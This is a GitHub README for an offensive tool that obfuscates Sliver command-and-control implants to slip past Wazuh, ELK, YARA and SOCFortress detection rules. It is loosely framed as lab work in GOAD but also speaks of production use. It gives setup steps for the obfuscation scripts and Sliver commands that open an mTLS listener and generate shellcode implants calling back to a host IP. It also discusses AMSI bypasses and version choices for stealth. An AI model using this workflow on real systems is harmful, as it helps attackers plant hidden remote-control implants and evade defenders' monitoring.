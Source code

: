 # Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfsucation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK rules—out, Wazuh YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh
1. Fork [Sliver](https://github.com/BishopFox/sliver) to your own repository.  
2. Clone the repo on your server.  
3. Place this [Tape](https://github.com/Oni-kuki/Tape) repo in front of your forked [Sliver](https://github.com/BishopFox/sliver) repo (on your server, of course)
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)

> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).  
> I have a better solution if you want to use the latest version because Donut-based payloads in 1.6 are not flagged as much yet.   

```taping.sh
./taping.sh version 1.5 FOLDER/
./taping.sh version 1.6 FOLDER/
```

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  

```
python3 scotch.py FILE
```

> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.

## Some Recomendations
> [!NOTE]
> Build the 1.5 version   
> Next to this build the 1.6 version  
> Add the sliver-server binary of 1.6 to the 1.5 server, like external builder and use it for every implant generation  

### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  
